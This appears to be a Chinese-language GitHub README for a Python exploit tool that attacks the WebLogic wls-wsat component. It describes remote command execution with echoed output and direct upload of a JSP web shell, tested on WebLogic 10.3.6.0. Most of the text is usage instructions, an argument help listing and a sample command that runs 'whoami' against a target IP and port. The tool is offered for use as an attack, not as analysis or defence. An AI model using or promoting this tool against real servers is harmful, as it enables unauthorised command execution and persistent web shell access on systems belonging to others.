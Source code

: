 #### 简易说明


+ 命令执行并回显
+ 直接上传shell
+ linux下weblogic 10.3.6.0测试OK

#### 使用方法

+ python weblogic_wls_wsat_exp.py -t 172.16.80.131:7001

```bash
usage: weblogic_wls_wsat_exp.py [-h] -t TARGET [-c CMD] [-o OUTPUT] [-s SHELL]

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        weblogic ip and port(eg -> 172.16.80.131:7001)
  -c CMD, --cmd CMD     command to execute,default is "id"
  -o OUTPUT, --output OUTPUT
                        output file name,default is output.txt
  -s SHELL, --shell SHELL
                        local jsp file name to upload,and set -o xxx.jsp
```

Example：

~~~
python2 weblogic_wls_wsat_exp_win.py -t 192.168.174.144:7001 -c "whoami"
~~~

![execute_command](execute_command.png)

